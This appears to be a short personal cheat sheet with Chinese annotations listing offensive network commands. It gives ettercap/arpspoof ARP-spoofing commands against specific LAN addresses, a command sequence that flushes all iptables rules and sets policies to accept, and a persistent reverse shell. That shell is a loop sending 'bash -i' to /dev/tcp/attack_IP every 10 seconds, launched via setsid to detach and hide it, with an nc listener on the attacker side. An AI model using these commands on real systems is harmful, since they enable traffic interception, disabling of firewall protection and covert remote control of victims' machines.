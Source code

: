 # arp

## arpspoof
1. install
```shell
apt install dsniff
```
2. 开启IP转发
```shell
# Linux root user
echo 1 >/proc/sys/net/ipv4/ip_forward
```
3. 查看IP转发
```shell
sudo sysctl -a | grep forward
```

## ettercap
```shell
# arp spoof
sudo ettercap -T -M arp /192.168.31.1// /192.168.31.68//
#
sudo ettercap -T -M arp:remote /192.168.31.1// /192.168.31.68//
```

## driftnet
## upx
## od

# iptables

## 删除所有iptables规则
```shell
iptables -P INPUT ACCEPT
iptables -P FORWARD ACCEPT
iptables -P OUTPUT ACCEPT
iptables -t nat -F
iptables -t mangle -F
iptables -F
iptables -X
```

## 显示规则
```shell
sudo iptables -t nat -v -L -n --line-number # 显示iptables规则
```

# reverse shell

    启用tcp连接主机，每隔10秒连接一次。当主机开启监听就直接向靶机发送指令。
    主机不在连接中，靶机上也看不到tcp信息，但是能看到进程信息。
    所以要将启动的进程的父进程设置为init(1)，用setsid命令将程序执行启动
1. 在靶机上启动反向shell

    创建如下文件reverse_shell.sh
```shell
#!/bin/bash

while true;do bash -i 2>/dev/null &> /dev/tcp/attack_IP/attack_port 0>&1;sleep 10; done;
```
    启动该程序
```shell
setsid reverse_shell.sh
```

2. 在攻击机器上接收
```shell
nc -lvp attack_port
```